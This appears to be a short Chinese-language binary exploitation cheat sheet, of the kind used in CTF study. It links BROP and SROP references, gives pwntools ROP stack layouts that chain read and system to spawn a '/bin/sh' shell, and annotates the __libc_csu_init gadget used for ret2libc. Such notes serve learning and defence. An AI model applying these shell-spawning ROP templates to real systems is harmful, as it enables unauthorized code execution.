 ## brop
http://www.scs.stanford.edu/brop/

## srop
https://www.freebuf.com/articles/network/87447.html
https://blog.csdn.net/qq_29343201/article/details/72627439
## 通用技术
常用的栈布局如下
```py
# 32位
flat(
    [
    read_addr,
    system_addr,
    0, #read 函数一个参数 fd/system返回地址
    binsh_addr #read第二个参数/system第一个参数
    ]
)
# 64位
flat(
    [
        pop_edi,
        0, //read第一个参数 fd
        pop_rsi,
        binsh_addr, #read第二个参数 sh字符串地址
        pop_rdx, 
        20,      #read第三个参数 长度
        read_addr,
        pop_rdi, 
        binsh_addr,# system第一个参数
        system_addr,
    ]
)
```
## ret2libc
64下通用gadget,`__libc_csu_init`,一共两端代码，可以设置三个寄存器传参的值
```asm
;第一段代码gad1
  pop     rbx  ;必须为0
  pop     rbp  ;必须为1
  pop     r12  ;你call函数的地址(应该是got上的?)
  pop     r13  ;arg3
  pop     r14  ;arg2
  pop     r15  ;arg1
  retn         ;gad2
```

```asm
;第二段代码gad2
mov     rdx, r13
mov     rsi, r14
mov     edi, r15d
call    qword ptr [r12+rbx*8] call!!!
add     rbx, 1
cmp     rbx, rbp
jnz     short loc_400880
add     rsp, 8
pop     rbx
pop     rbp
pop     r12
pop     r13
pop     r14
pop     r15 ;这个地方可以构造错位gadgets,恰好可以构造为pop rdi,ret
retn     ;构造一些垫板(7*8=56byte)，因为后面后面还有很多pop+rbp+ret
```